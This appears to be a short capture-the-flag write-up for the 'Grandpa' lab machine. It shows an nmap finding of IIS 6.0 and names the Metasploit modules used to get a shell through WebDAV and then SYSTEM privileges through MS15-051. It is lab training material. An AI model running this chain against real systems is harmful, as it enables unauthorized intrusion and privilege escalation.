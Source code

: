 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Grandpa
# 19/3/2023
10.10.10.14

----------------------------------------------------
# nmap
----------------------------------------------------
80/tcp open  http    Microsoft IIS httpd 6.0

----------------------------------------------------
# exploitation
----------------------------------------------------
msf6 > search IIS 6.0
use windows/iis/iis_webdav_scstoragepathfromurl
set options
you got shell

migrate with other ps like davcdata.exe

----------------------------------------------------
# priv esc
----------------------------------------------------
use multi/recon/local_exploit_suggester
set options run


use exploit/windows/local/ms15_051_client_copy_image
set options run

you got system
